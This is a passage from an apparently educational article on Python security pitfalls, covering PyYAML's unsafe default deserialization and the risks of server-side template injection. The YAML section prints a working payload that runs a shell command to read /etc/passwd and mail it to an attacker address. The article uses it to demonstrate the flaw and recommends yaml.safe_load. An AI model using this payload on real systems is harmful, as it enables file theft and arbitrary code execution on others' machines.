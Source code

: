 Being a popular configuration file format, YAML is not
necessarily perceived as a powerful serialization protocol
capable of tricking a deserializer into executing arbitrary code.
What makes it even more dangerous is that the de facto
default YAML implementation for Python - 
[PyYAML](http://pyyaml.org/wiki/PyYAMLDocumentation)
makes deserialization look very innocent:

~~~
   >>> import yaml
   >>>
   >>> dangerous_input = """
   ... some_option: !!python/object/apply:subprocess.call
   ...   args: [cat /etc/passwd | mail attacker@blackhat.com]
   ...   kwds: {shell: true}
   ... """
   >>> yaml.load(dangerous_input)
   {'some_option': 0}
~~~

...while /etc/passwd is being stolen. A suggested fix is
to always use `yaml.safe_load` for handling YAML serialization
you can't trust. Still, the current PyYAML default feels
somewhat provoking considering other serialization
libraries tend to use `dump`/`load` function names for
similar purposes, but in a safe manner.


Templating engines
------------------

Web application authors adopted Python long ago. Over the
course of a decade, quite a number of Web frameworks have
been developed. Many of them utilize
[templating engines](https://wiki.python.org/moin/Templating)
for generating dynamic web contents from, well, templates and
runtime variables. Aside from web applications, templating
engines found their way into completely different software such
as the Ansible IT automation tool.

When content is being rendered from static templates and runtime
variables, there is a risk of user-controlled code injection through
runtime variables. A successfully mounted attack against a web application
may lead to a 
[cross-site scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)
vulnerability. Usual mitigation for server-side template injection
is to sanitize the contents of template variables before it interpolates
into the final document. The sanitization can be done by denying,
stripping off or escaping characters that are special to any given
markup or other domain-specific language.

Unfortunately, templating engines do not seem to lean towards
tighter security here -- looking at the most popular implementations,
neither of them apply escaping mechanism by default, relying on
a developer's awareness of the risks.
